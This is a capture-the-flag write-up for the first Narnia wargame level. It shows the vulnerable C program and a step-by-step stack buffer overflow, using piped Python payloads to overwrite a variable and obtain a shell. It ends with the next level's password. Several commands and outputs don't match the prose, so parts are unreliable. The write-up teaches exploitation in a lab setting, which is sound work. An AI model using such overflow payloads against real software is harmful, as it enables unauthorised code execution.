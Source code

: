 ### Narnia Write Up

The challenges are in /narnia (for future reference).

# Narnia 0
```C
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```
So for the first exercise we get the C code and the compiled binaries at for narnia0.

```
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAA
buf: AAAAA
val: 0x41414141
WAY OFF!!!!
```

So it seems we want to have the value at `val` be `0xdeadbeef`. But how do we do that?

Well we use a `BUFFER OVERFLOW`, a buffer is an array like in C or Java (not exactly like Python lists) that holds multiple elements. Overflowing it is putting in more elements than it can handle and it ends up flowing over to the other variables.

This buffer can hold 20 elements as seen with `char buff[20];`, so lets give it 21 elements

```
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAC
buf: AAAAAAAAAAAAAAAAAAAAC
val: 0x41410043
WAY OFF!!!!
```

So the value in val is not `0x41414141` anymore? The `0x43` is hex code for the letter `C` and the `0x00` is the null byte to terminate the string.

Ok so lets overflow it with all `C`s.

#### Piping and Python command line

It gets really tedious having to copy and paste the code so we need to use piping. This enters what is being piped in as the data input here is an example.
```
narnia0@narnia:/narnia$ echo "dogs_are_cools" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: dogs_are_cools
val: 0x41414141
WAY OFF!!!!
```
So even though it is not seen when entered it is inputted it. This makes redoing problems just a matter of using previous commands.

However shell scripting is not the easiest when it comes to string manipulation (trust me). But you can do python using the `-c` flag.

```
narnia0@narnia:/narnia$ python -c 'print "dogs_are_cools"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: dogs_are_cools
val: 0x41414141
WAY OFF!!!!
```
See how it does the same thing. You can do ANY python operations through command line with this. So lets try overflowing val with C's (0x43).

```
narnia0@narnia:/narnia$ python -c 'print "A" * 20 + "C" * 4' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: dogs_are_cools
val: 0x43434343
WAY OFF!!!!
```

Great now lets make it `0xdeadbeef`

```
narnia0@narnia:/narnia$ python -c 'print "A"*20 + "\xbe\xef\xde\xad"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: dogs_are_cools
val: 0xdadeefbe
WAY OFF!!!!
```

Since we want it to be hex instead of text we use the `\x` to differentiate. But it does not matter because it outputted `0xaddeefbe`. This is because of little endianess of the program. Notice how each pair of characters is in reverse of 0xdeadbeef. This means we have to enter it backward.

```
narnia0@narnia:/narnia$ python -c  'print "A" * 20 + "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
```

So not `WAY OFF!!!`! No shell even though the program executes `system("/bin/sh");`? This is because the shell is executing once program ends. So lets try sneeking in some commands. To have multiple commands at once you use `()` and seperate them with `;`. So lets try with ls?

```
narnia0@narnia:/narnia$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; ls) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
/bin/sh: 1: narnia0: not found
/bin/sh: 2: narnia0.c: not found
/bin/sh: 3: narnia1: not found
/bin/sh: 4: narnia1.c: not found
/bin/sh: 5: narnia2: not found
/bin/sh: 6: narnia2.c: not found
/bin/sh: 7: narnia3: not found
/bin/sh: 8: narnia3.c: not found
/bin/sh: 9: narnia4: not found
/bin/sh: 10: narnia4.c: not found
/bin/sh: 11: narnia5: not found
/bin/sh: 12: narnia5.c: not found
/bin/sh: 13: narnia6: not found
/bin/sh: 14: narnia6.c: not found
/bin/sh: 15: narnia7: not found
/bin/sh: 16: narnia7.c: not found
/bin/sh: 17: narnia8: not found
/bin/sh: 18: narnia8.c: not found
```

Ok it looks like it is taking the every value as a command.
So we need a command that produces other commands. (Here is a hint open terminal and type cat. What happens after that?)


We need the cat command.
```
narnia0@narnia:/narnia$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; ls) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami <--- type this
narnia1
```

Sweet we got a shell with narnia1 priviledges. I am going to leave it up to you to use linux foo to FIND the password file.

Password: `efeidiedae`
